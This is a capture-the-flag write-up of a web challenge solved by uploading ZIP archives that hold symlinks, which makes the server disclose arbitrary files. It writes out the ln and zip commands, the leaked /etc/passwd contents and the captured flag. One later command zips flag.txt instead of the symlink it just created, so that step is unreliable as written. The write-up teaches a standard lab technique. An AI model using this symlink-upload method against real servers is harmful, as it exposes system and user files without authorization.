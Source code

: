 To get the flag, you had to exploit a vulnerability that results from improper handling of symlink files. If a symlink file points to an existing file in the web server, the contents of that file will be shown to the user.

The challenge description states that the flag is located in a user's home directory. However, we don't know the name of the user who's directory we need to access. To find out the username, you would have to look at the */etc/passwd* file. To do this, the following commands are used (The symlink file extension doesn't really matter):
```
ln -s /etc/passwd pass.txt
zip --symlinks pass.zip pass.txt
```

The resulting ZIP file would then be sent through the web interface, giving you the following output:
```
---------------pass.txt---------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
copenhagen:x:1000:1000::/home/copenhagen:/bin/sh
```

It can be noticed that there is only one user, *copenhagen*. With this information, it can be deduced that the path to the  is */home/copenhagen/flag.txt*. Therefore, the following commands can be used (You may need higher privileges to run these commands):
```
cd /home
mkdir copenhagen
cd copenhagen
touch flag.txt
ln -s /home/copenhagen/flag.txt flag.jpeg
zip --symlinks flag.zip flag.txt
```

By uploading the resulting ZIP file, the following flag can be retrieved:

utflag{No_Observable_Cats_Were_Harmed}


\* Note: Doing this through Windows or WSL does not seem to work. I assume that it is due to how Windows implements symbolic links, but your guess is as good as mine.